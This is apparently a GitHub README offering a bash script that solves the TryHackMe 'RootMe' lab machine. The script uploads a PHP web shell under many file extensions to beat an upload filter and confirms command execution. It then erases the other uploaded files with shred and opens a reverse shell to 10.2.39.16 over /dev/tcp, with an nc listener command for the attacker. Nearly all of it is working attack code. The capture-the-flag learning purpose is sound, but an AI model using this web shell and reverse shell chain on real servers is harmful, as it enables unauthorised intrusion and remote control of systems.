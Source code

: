 > The purpose of this script is to practice scripting in bash and understand the techniques involved in bypassing file upload restrictions. It serves as a learning exercise and should only be used on authorized systems for educational purposes.

# TryHackMe-RootMe
### Bash script to solve the TryHackMe machine: [RootMe](https://tryhackme.com/room/rrootme). I wrote this script to learn and practice bash scripting. I used it to bypass file upload restrictions and gain access to the server, allowing me to escalate privileges later on.

``` bash
#!/bin/bash

# Colores
greenColour="\e[0;32m\033[1m"
endColour="\033[0m\e[0m"
redColour="\e[0;31m\033[1m"
blueColour="\e[0;34m\033[1m"
yellowColour="\e[0;33m\033[1m"
purpleColour="\e[0;35m\033[1m"
turquoiseColour="\e[0;36m\033[1m"
grayColour="\e[0;37m\033[1m"

# Ctrl C
trap 'echo -e "\n\n${redColour}[!] Keyboard interruption detected. Terminating.${endColour}\n"; exit 1' INT

file_extension=(".php" ".php2" ".php3" ".php4" ".php5" ".php6" ".php7" ".phps" ".phps" ".pht" ".phtm" ".phtml" ".pgif" ".shtml" ".htaccess" ".phar" ".inc" ".hphp" ".ctp" ".module")
# let's create a file with some PHP code
php_code='<?php system($_GET["cmd"]); ?>'

for extension in "${file_extension[@]}"; do
  
  echo "$php_code" > "cmd${extension}"
  sleep 2
  response=$(curl -s -F "fileUpload=@cmd${extension}" -F "submit=" "http://10.10.45.41/panel/")
  
  if echo "$response" | grep -q "PHP não é permitido!"; then
    echo -e "${yellowColour}[*]Checking file extension cmd${extension}${endColour}"
    echo -e "${redColour}Sorry, you cannot upload this file${endColour}${yellowColour} >${endColour} ${purpleColour}cmd$extension.${endColour}"
  else
    echo -ne "\r${yellowColour}[*]Checking if the${endColour} ${redColour}whoami${endColour} ${yellowColour}commmand works with the following extension file cmd${extension}${endColour}"
    check_cmd=$(curl -s "http://10.10.45.41/uploads/cmd${extension}?cmd=whoami")
    if echo "$check_cmd" | grep -q "www-data"; then
      echo -e "${redColour} [Yes] ${endColour}${purpleColour}$check_cmd${endColour}"
      sleep 2
      valid_extention="cmd${extension}"
      echo -e "${yellowColour}[!]Delete invalid files on the server${endColour}"
      sleep 3
      echo -e "${yellowColour}[*]${endColour}${yellowColour}Success fully deleted.${endColour}"
      echo -e "${yellowColour}[!]Please open another terminal and start listening to the reverse shell with the following command${endColour} ${redColour}nc -nlvp 5001${endColour}"
      sleep 20
      curl -s 'http://10.10.45.41/uploads/cmd.php5?cmd=find%20.%20-maxdepth%201%20-type%20f%20-name%20%22cmd*%22%20%21%20-name%20"'$valid_extention'"%20-exec%20shred%20-u%20%7B%7D%20%5C%3B'
      echo -e "${yellowColour}[*]triyng reverse shell${endColour}"
      shell=$(echo -e "GET /uploads/cmd${extension}?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.2.39.16%2F5001%200%3E%261%27 HTTP/1.0\r\n\r\n" | nc 10.10.45.41 80)
      break
    fi
  fi
  rm "cmd${extension}"
done
```
### I'm learning, so I appreciate any help and recommendations you can give me to improve my scripting in bash. 
> Hey, follow me on [LinkedIn!](https://www.linkedin.com/in/kevinvanegaszubiria)

